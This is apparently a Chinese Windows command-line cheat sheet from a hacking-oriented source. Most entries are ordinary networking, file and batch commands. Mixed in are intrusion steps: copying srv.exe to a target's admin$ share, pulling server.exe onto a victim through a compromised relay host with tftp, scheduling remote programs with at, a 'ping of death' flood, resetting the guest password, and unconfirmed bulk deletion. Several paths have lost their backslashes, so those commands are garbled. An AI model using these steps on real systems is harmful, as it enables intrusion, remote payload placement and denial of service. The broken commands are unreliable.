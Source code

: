 > net pause 服务名 暂停某服务
> net send ip "文本信息" 向对方发信息
> net ver 局域网内正在使用的网络连接类型和信息
> net share 查看本地开启的共享
> net share ipc$ 开启ipc$共享
> net share ipc$ /del 删除ipc$共享
> net share c$ /del 删除C：共享
> net user guest 12345 用guest用户登陆后用将密码改为12345
> net password 密码 更改系统登陆密码
> netstat -a 查看开启了哪些端口,常用netstat -an
> netstat -n 查看端口的网络连接情况，常用netstat -an
> netstat -v 查看正在进行的工作
> netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
> netstat -s 查看正在使用的所有协议使用情况
> nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
> tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
> ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
> ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
> ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
> tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
> kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
> del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除只、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
> del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
> move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
> fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
> at id号 开启已注册的某个计划任务
> at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
> at id号 /delete 停止某个已注册的计划任务
> at 查看所有的计划任务
> at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
> finger username @host 查看最近有哪些用户登陆
> telnet ip 端口 远和登陆服务器,默认端口为23
> open ip 连接到IP（属telnet登陆后的命令）
> telnet 在本机上直接键入telnet 将进入本机的telnet
> copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
> copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
> copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
> copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
> xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
> 用参数/e才可连目录下的子目录一起复制到目标地址下。
> tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
> tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
> ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
> route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
> arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
> start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
> mem 查看cpu使用情况
> attrib 文件名(目录名) 查看某文件（目录）的属性
> attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
> dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
> date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
> set 指定环境变量名称=要指派给变量的字符 设置环境变量
> set 显示当前所有的环境变量
> set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
> pause 暂停批处理程序，并显示出：请按任意键继续....
> if 在批处理程序中执行条件处理（更多说明见if命令及变量）
> goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
> call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
> for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
> echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
> echo 信息 在屏幕上显示出信息